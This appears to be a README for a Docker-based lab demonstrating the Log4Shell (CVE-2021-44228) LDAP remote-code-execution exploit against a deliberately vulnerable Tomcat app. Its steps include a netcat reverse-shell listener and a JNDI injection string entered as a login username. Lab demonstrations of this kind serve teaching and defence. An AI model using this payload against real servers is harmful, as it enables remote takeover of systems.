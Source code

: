 # log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell

### Description

The demo Tomcat 8 server on port 8080 has a vulnerable app (log4shell) deployed on it and the server also vulnerable via user-agent attacks.

The remote exploit app in this demo is based on that found at <https://github.com/kozmer/log4j-shell-poc>

This demo tomcat server (Tomcat 8.5.3, Java 1.8.0u51) has been reconfigued to use Log4J2 for logging - a non-standard configuration.

The RMI exploit against the Tomcat 9 / Java 11 server is described here: <https://www.veracode.com/blog/research/exploiting-jndi-injections-java> (Jan 3, 2019) by Michael Stepankin

The detection script will check for user-agent vulnerablities and is from here: <https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6>

### Prerequisites

This code requires Docker and Docker Compose

### Installation

- edit docker-compose.yml file:
  - change value of #LISTENER_ADDR to the local IP of your docker hostmachine
- build docker containers:

```
docker-compose build
```

### Run Web App Attack Demo

- Setup your netcat listener in the first terminal

```
    nc -lv 10.10.10.31 9001
```

- Start the docker containers in a second terminal

```
   docker-compose up
```

- Navigate to <http://10.10.10.31:8080/log4shell>
- Login as "regular" user:
  - Enter the username: `admin`
  - Enter the password: `password`
  - Press the "login" button
- try out log4j vulnerability
  - Return to login at <http://10.10.10.31:8080/log4shell>
  - Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
  - Select the "login" button
  - Check for connection on your `nc` listener
